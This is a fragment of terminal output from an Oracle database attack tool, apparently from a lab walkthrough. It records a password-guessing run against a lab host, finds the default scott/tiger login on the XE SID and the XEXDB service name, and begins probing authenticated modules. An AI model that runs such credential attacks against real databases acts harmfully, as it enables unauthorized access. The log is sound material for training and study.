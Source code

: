 ```
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                    | ETA:  00:09:50 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                    | ETA:  00:09:27 
[!] Notice: 'dip' account is locked, so skipping this username for password                       | ETA:  00:08:57 
[!] Notice: 'hr' account is locked, so skipping this username for password                        | ETA:  00:07:15 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                     | ETA:  00:05:33 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                | ETA:  00:04:20 
[!] Notice: 'outln' account is locked, so skipping this username for password                     | ETA:  00:03:53 
[+] Valid credentials found: scott/tiger. Continue...           ###############                   | ETA:  00:02:09 
[!] Notice: 'xdb' account is locked, so skipping this username for password###################    | ETA:  00:00:25 
100% |############################################################################################| Time: 00:10:41 
[+] Accounts found on 10.129.205.19:1521/sid:XE: 
scott/tiger


[5] (10.129.205.19:1521): Searching valid accounts on the XEXDB Service Name
The login abm has already been tested at least once. What do you want to do:                      | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                    | ETA:  00:09:35 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                    | ETA:  00:09:11 
[!] Notice: 'dip' account is locked, so skipping this username for password                       | ETA:  00:08:38 
[!] Notice: 'hr' account is locked, so skipping this username for password                        | ETA:  00:07:02 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                     | ETA:  00:05:23 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                | ETA:  00:04:10 
[!] Notice: 'outln' account is locked, so skipping this username for password                     | ETA:  00:03:44 
[+] Valid credentials found: scott/tiger. Continue...           ###############                   | ETA:  00:02:03 
[!] Notice: 'xdb' account is locked, so skipping this username for password###################    | ETA:  00:00:24 
100% |############################################################################################| Time: 00:10:11 
[+] Accounts found on 10.129.205.19:1521/serviceName:XEXDB: 
scott/tiger


[6] (10.129.205.19:1521): Testing all authenticated modules on sid:XE with the scott/tiger account
[6.1] UTL_HTTP library ?
[-] KO
[6.2] HTTPURITYPE library ?
```